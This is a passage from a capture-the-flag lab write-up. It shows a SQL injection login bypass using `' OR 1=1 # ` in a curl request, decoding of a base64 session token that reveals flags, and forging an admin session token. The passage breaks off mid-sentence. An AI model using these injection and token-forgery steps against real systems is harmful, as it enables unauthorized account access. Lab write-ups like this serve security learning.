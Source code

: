 Long story short, the 'email' parameter was vulnerable to SQLi. The frontend alerted the user when the email address was not valid, but the backend did not have any checks in place. Appending `' OR 1=1 # ` to the end of my non-existend address allowed me to create a session, which looked like a base64-encoded string. I proceeded to try to decode the session id:

{% highlight bash %}
root@attackdefense:~# echo eyJhZG1pbiI6IDAsICJ1c2VyaWQiOiAxLCAiZW1haWwiOiAiamFja2llQGNvZGUtaWRlLmNvbSIsICJGTEFHMiI6ICJmYzIzNWVkZmU5MTliODBiNGU4N2E3ZWY4NTJmMWY0ZiJ9 | base64 -d; echo
{"admin": 0, "userid": 1, "email": "jackie@code-ide.com", "FLAG2": "fc235edfe919b80b4e87a7ef852f1f4f"}
root@attackdefense:~#
{% endhighlight %}

The 2nd flag can be clearly seen, but where was the first one? The response headers.

{% highlight bash %}
root@attackdefense:~# curl -X POST -H "Content-Type: application/json" http://192.48.37.3:8000/login -d "{\"email\": \"yakuhito@not.your.business' OR 1=1 # \", \"password\": \"password\"}" -i; echo
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 150
FLAG1: 2fb96bbc46ca18d07e0455acc706ea17
Access-Control-Allow-Origin: *
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Fri, 11 Dec 2020 10:24:48 GMT

{"sessid": "eyJhZG1pbiI6IDAsICJ1c2VyaWQiOiAxLCAiZW1haWwiOiAiamFja2llQGNvZGUtaWRlLmNvbSIsICJGTEFHMiI6ICJmYzIzNWVkZmU5MTliODBiNGU4N2E3ZWY4NTJmMWY0ZiJ9"}
root@attackdefense:~#
{% endhighlight %}

In case you're wondering, the `-i` switch tells cURL to print the headers of the server's response.

## Running code - FLAG4

The first thing that I'd do would be to change the sessid token so that admin is set to 1 - admins often have access to more functionality than normal users. To do that, I picked the decoded JSON string, changed `0` to `1` and re-encoded it. I also modified the email so that I used the previously-found SQLi (not doing this last step result in an 'invalid session' error -> the SELECT statement that validates the user exists also checks wether admin is set to the right value).

{% highlight bash %}
root@attackdefense:~# cat token 
{"admin": 1, "userid": 1, "email": "yakuhito@not.your.business' or 1=1 # ", "FLAG2": "fc235edfe919b80b4e87a7ef852f1f4f"}
root@attackdefense:~# cat token | base64 -w 0; echo
eyJhZG1pbiI6IDEsICJ1c2VyaWQiOiAxLCAiZW1haWwiOiAieWFrdWhpdG9Abm90LnlvdXIuYnVzaW5lc3MnIG9yIDE9MSAjICIsICJGTEFHMiI6ICJmYzIzNWVkZmU5MTliODBiNGU4N2E3ZWY4NTJmMWY0ZiJ9Cg==
root@attackdefense:~#
{% endhighlight %}

I wanted to use the frontend, but I still didn't have any valid creds. I inspected the app's source by accessing all .js files and appending `.map` at the end. That way, I found out the session was stored inside the `localStorage` object, so I used the following command to trick the app that I was logged in:
